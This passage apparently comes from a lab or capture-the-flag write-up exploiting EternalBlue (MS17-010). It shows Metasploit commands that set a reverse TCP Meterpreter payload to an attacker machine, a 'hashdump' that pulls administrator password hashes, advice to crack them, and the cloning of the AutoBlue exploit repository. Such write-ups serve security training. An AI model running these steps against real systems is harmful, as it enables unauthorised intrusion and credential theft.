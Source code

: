 ![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*vCMWhDlhwCOu5fin86omSQ.png)

Before executing the exploit, I verified that all required options were set, ensuring to specify the LHOST IP address of my attacker machine:

```c
options
```

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*vHLIIAKwLf-1prezYMLw9A.png)

To further confirm the target’s vulnerability, I executed:

```c
check
```

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*2nWh-1Gzx5OmZc6oAUJq1A.png)

I then set the payload for a 64-bit reverse TCP Meterpreter shell:

```c
set payload windows/x64/meterpreter/reverse_tcp
run
```

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*rQ_oPLfXby0oJoKgcvnBmQ.png)

Upon successful exploitation, I established a Meterpreter session on the target machine:

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*G4qrU5T5WcIPk1w6ixY4Bw.png)

## Post-Exploitation: Extracting Password Hashes

With the session active, I executed the hashdump command to retrieve password hashes from the system:

```c
hashdump
```

This command provided the administrator account’s password hash, enabling further actions using tools like Hashcat or John the Ripper to crack the password and gain elevated access.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pF4KCeiKntCVVC9O86S6dg.png)

## Manual Exploitation

An additional Google search for EternalBlue exploits led to the discovery of this particular exploit that seems easier to achieve our goal:

- [AutoBlue-MS17–010 hosted by 3ndG4me](https://github.com/3ndG4me/AutoBlue-MS17-010)

I cloned this repo to the /opt directory on my Kali machine:

```c
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010
```
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*5dI6aAXUV8dLTPvuH9QSDw.png)
